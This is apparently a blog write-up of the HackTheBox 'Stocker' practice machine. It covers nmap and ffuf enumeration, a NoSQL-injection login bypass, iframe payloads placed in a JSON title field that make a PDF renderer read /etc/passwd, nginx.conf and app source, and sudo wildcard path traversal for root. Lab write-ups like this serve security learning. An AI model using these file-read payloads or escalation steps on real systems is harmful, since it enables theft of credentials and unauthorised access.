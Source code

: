 ```yaml
---
title: "Stocker"
collection: publications
permalink: /publication/stocker
excerpt: 'This is a free machine from HackTheBox'
date: 2023-03-02
venue: '03-02'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/stocker.png)

**LINK:** [Stocker](https://app.hackthebox.com/machines/Stocker**)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sC -sV -T4 10.10.11.196     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-01 11:20 EST
Nmap scan report for 10.10.11.196
Host is up (0.61s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.99 seconds
```

* We got 2 open ports : 80 (nginx web server) and 22 (SSH)

**Subdomains :**

```bash
# ffuf -u http://stocker.htb/FUZZ -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

js                      [Status: 301, Size: 178, Words: 6, Lines: 8]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8]
fonts                   [Status: 301, Size: 178, Words: 6, Lines: 8]
```

* nothing useful.

**Vhosts :**

```bash

ffuf -u http://stocker.htb -H "HOST: FUZZ.stocker.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 301
________________________________________________

dev                     [Status: 302, Size: 28, Words: 4, Lines: 1]
```

## Foothold :

* let's add the dev.stocker.htb to /etc/hosts and start inspecting the page : 
![stocker1](/images/stocker1.png)

* the first thing came to my mind is SQLi, i tried with a wordlist contains payloads to bypass a login page, but nothing worked until i noticed this response header

![response](/images/header5.png)

* I did some reasearch and i found that using **Express** as a back-end framework is a popular MongoDB stack design, and i know that MongoDB is a NOSQL database.
[Read more](https://ruptura-infosec.com/blog/nosql-noproblem/)

* Thanks to [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) i was able to bypass the login page and got redirected to /stock

![stock](/images/stocker3.png)

* I spent some time exploring the website, i noticed that when i add an item to the cart and the purchase is successful, the response contains an order_id 

![orderid](/images/stocker16.png)

* it renders out a PDF file in /api/po/order_id, when i saw that the title of the item is rendered to the pdf, i start manipulating with is until i was able to read a file that i wasn't supposed to.
![request](/images/stocker4.png)
![theresponse](/images/stocker5.png)

* Now it's time to read the /etc/passwd :

```bash
"title":"<iframe src=file:///etc/passwd height=1000px width=800px</iframe>
```


![etcpasswd](/images/stocker7.png)

* Now i got a username but i still need a password or a SSH key.
* Since it's a nginx web server, let's read the nginx.conf file 

```bash
"title":"<iframe src=file:///etc/nginx/nginx.conf height=1000px width=800px</iframe>
```

![nginx](/images/stocker8.png)

* Now i know where the dev.stocker.htb is located, i took a guess of the file name

```bash
"title":"<iframe src=file:///var/www/dev/index.js height=1000px width=800px</iframe>
```

![conffile](/images/stocker9.png)
![passwd](/images/stocker10.png)


* Now i have a username and a password, let's login using SSH

![ssh](/images/stocker11.png)

* First thing to do is to check sudo permissions

![sudo](/images/stocker12.png)

* we don't have permission to write or modify in /usr/local/scripts

![permission](/images/stocker13.png)

* But since we have a wildcard before __.js__ we can use a path traversal to execute a file we have directory write access to, and the best directory is __/tmp__

* I created a file called __exploit.js__ 
![exploit](/images/stocker14.png)

*Now it's time to execute it with sudo permission

![root](/images/stocker15.png)